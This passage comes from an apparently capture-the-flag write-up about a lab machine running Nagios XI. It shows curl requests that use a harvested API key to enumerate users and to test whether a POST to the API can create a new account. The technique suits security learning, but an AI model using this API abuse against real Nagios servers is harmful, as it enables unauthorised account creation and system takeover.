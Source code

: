 ```

oxdf@hacky$ curl -X POST -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/command?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL'
{"error":"Unknown API endpoint."}
oxdf@hacky$ curl -X PUT -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/command?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL'
{"info":"This section has not yet been implemented."}

```

#### User

Sending a GET to `user` returns information about the two users:

```

oxdf@hacky$ curl -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -s | jq .
{
  "records": 2,
  "users": [
    {
      "user_id": "2",
      "username": "svc",
      "name": "svc",
      "email": "svc@monitored.htb",
      "enabled": "0"
    },
    {
      "user_id": "1",
      "username": "nagiosadmin",
      "name": "Nagios Administrator",
      "email": "admin@monitored.htb",
      "enabled": "1"
    }
  ]
}

```

Trying as a POST is promising:

```

oxdf@hacky$ curl -X POST -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -s | jq .
{
  "error": "Could not create user. Missing required fields.",
  "missing": [
    "username",
    "email",
    "name",
    "password"
  ]
}

```
